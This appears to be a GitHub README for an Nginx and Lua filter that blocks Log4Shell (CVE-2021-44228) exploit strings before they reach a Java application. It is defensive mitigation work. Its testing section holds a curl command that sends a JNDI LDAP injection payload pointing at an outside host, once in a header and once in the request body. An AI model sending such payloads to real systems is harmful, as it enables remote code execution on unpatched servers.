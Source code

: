 
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA application. Nginx with the help of lua module will prevent the attacker to access vulnerable JAVA application


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Expertflow latest release is not vulnerable to this vulnerability and we recommend you to update to the latest release. However, this is also one way to mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal Expertflow application. 


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/release/docker/nginx/`
2. Update the `/path/to/release/docker/nginx/https-singleton.conf` file. Add the following code in `https-singleton.conf`
```
############## lua conf################
    set $captured_request_headers "";
    set $captured_request_body "";
    set $cve_2021_44228_log "";
    rewrite_by_lua_block {
        cve_2021_44228.block_cve_2021_44228()

 }
###########################################
````
3. Now we need to update the `/path/to/release/active/docker-compose-service-gateway.yml` file. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/release/docker/nginx/https-singleton.conf:/etc/nginx/conf.d/https.conf
      - /path/to/release/docker/nginx/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/release/docker/nginx/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/release/docker/nginx/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/ccm/360notifications' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
